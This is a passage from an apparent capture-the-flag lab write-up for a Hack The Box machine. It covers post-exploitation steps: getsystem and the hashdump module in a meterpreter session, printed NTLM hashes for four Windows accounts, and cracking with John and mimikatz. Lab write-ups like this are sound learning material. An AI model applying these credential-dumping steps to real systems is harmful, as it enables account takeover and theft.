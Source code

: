 
24. I backgrounded this meterpreter session to use the hashdump module and get hashes of **Admin**. You should run **getsystem** first before **run hashdump**.

![alt text](/images/htb-Access/hashdump-acquired.png)

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:db852e5a46ea5f5514f639a20daa9e2c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
security:1001:aad3b435b51404eeaad3b435b51404ee:b41db16a61cb04b231625de260163015:::
engineer:1002:aad3b435b51404eeaad3b435b51404ee:25c41637f0a9874ac9b90b4a4baf5783:::
```

25. Used John to crack at the hashes. I also loaded mimikatz to get the admin password.

![alt text](/images/htb-Access/mimkikatz-admin-creds.png)
